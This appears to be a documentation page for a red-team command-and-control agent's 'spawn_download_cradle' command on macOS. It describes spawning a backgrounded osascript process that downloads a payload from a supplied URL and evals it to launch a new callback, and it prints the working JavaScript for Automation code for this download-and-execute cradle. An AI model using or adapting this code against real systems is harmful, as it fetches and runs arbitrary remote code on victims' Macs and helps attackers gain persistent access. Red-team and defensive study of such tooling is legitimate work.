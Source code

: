 +++
title = "spawn_download_cradle"
chapter = false
weight = 100
hidden = false
+++

## Summary

Spawn a new osascript download cradle as a backgrounded process to launch a new callback 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

#### url

- Description: full URL of hosted payload  
- Required Value: True  
- Default Value: None  

## Usage

```
spawn_download_cradle 
```


## Detailed Summary
Uses the same execution technique as the `run` command to launch a backgrounded `osascript` binary with a download cradle:
```JavaScript
let path = "/usr/bin/osascript";
let args = ['-l','JavaScript','-e'];
let command = "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString(";
command = command + "'" + full_url + "')),$.NSUTF8StringEncoding)));";
args.push(command);
args.push("&");
try{
    let pipe = $.NSPipe.pipe;
    let file = pipe.fileHandleForReading;  // NSFileHandle
    let task = $.NSTask.alloc.init;
    task.launchPath = path;
    task.arguments = args;
    task.standardOutput = pipe;
    task.standardError = pipe;
    task.launch;
}
```

This doesn't generate a new payload, it just pulls down and executes the payload hosted at `url`.


